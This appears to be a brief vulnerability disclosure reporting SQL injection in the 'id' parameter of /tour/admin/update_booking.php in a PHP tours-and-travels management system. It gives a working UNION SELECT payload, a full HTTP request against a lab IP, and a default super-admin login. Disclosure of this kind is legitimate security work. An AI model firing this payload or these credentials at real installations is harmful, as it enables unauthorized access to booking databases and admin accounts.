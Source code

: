 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Bains

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_booking.php

Vulnerability location: /tour/admin/update_booking.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_booking.php?id=-1%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /tour/admin/update_booking.php?id=-1%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183012620-06afc5fa-6eb6-4f90-bcbd-58708a09be7f.png)

